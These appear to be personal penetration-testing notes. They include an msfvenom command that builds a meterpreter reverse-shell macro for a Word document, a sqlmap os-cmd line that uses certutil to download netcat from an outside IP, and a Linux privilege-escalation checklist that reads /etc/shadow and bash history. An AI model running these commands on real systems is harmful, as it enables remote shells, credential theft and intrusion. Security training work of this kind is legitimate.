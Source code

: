 
Clientside word doc 

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=8080 -e x86/shikata_ga_nai -f vba-exe       


# SQLMAP

--os-cmd="certutil.exe -urlcache -split -f http://192.168.119.164/nc.exe"



# PERL Add USER to Windows
https://brakertech.com/add-user-to-windows-using-perl/

# BOF
https://anilcelik.medium.com/en-buffer-overflow-prep-overflow2-walkthrough-ed6d9447595b


# LINUX PRIVELEGE ESCALATION

always check

sudo -l
cat /etc/shadow
cat .bash_history


Kernal Exploits

uname -r 

uname -a

hostname

Backup Files

/root
/home
/tmp
/var
/var/backups
/opt
/opt/backups
/usr

Check exploits for running services:

ps aux | grep <USER>
ps aux | grep root


Is mysql running as root?
